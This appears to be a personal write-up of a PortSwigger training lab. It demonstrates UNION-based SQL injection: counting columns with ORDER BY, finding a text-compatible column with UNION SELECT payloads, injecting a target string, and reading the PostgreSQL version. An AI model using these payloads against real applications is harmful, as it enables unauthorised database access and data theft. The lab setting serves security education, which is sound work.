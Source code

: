 # SQL injection UNION attack, finding a column containing text

## Introduction

Welcome to my another writeup! In this Portswigger Labs [lab](https://portswigger.net/web-security/sql-injection/union-attacks/lab-find-column-containing-text), you'll learn: SQL injection UNION attack, finding a column containing text! Without further ado, let's dive in.

- Overall difficulty for me (From 1-10 stars): ★☆☆☆☆☆☆☆☆☆

## Background

This lab contains an SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response, so you can use a UNION attack to retrieve data from other tables. To construct such an attack, you first need to determine the number of columns returned by the query. You can do this using a technique you learned in a [previous lab](https://portswigger.net/web-security/sql-injection/union-attacks/lab-determine-number-of-columns). The next step is to identify a column that is compatible with string data.

The lab will provide a random value that you need to make appear within the query results. To solve the lab, perform an [SQL injection UNION](https://portswigger.net/web-security/sql-injection/union-attacks) attack that returns an additional row containing the value provided. This technique helps you determine which columns are compatible with string data.

## Exploitation

**Home page:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/SQL-Injection/SQLi-4/images/Pasted%20image%2020221204015431.png)

- **Objective: Retrieve the string `F46d4g` from the database.**

In the previous lab, we found **a SQL injection vulnerability in the `filter` page:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/SQL-Injection/SQLi-4/images/Pasted%20image%2020221204015820.png)

**And we found the number of columns is 3 via this payload: `' ORDER BY 3-- -`.**

Now, we need to output the string `F46d4g`.

**To do so, I'll find which column is accepting string datatype:**
```sql
' UNION SELECT NULL,NULL,'a'-- -
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/SQL-Injection/SQLi-4/images/Pasted%20image%2020221204020257.png)

**If the datatype doesn't allow strings, it returns a `500 Internal Server Error` HTTP status.**

**If the datatype accept strings:**
```sql
' UNION SELECT NULL,'SQL Injection',NULL-- -
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/SQL-Injection/SQLi-4/images/Pasted%20image%2020221204020424.png)

**It has no error!**

**After finding the correct column that accepts string datatype, we can use that column to display anything!**
```sql
' UNION SELECT NULL,'F46d4g',NULL-- -
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/SQL-Injection/SQLi-4/images/Pasted%20image%2020221204020627.png)

**Now, not only we can display what string we want, but also we can enumerate the database much further! Or even exfiltrating data!**

**Finding which version of this database is using:**
```sql
' UNION SELECT NULL,version(),NULL-- -
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/SQL-Injection/SQLi-4/images/Pasted%20image%2020221204021005.png)

**We found that it's using `PostgreSQL` for DBMS (Database Management System), and it's version is `12.12`!**

# Conclusion

What we've learned:

1. SQL injection UNION attack, finding a column containing text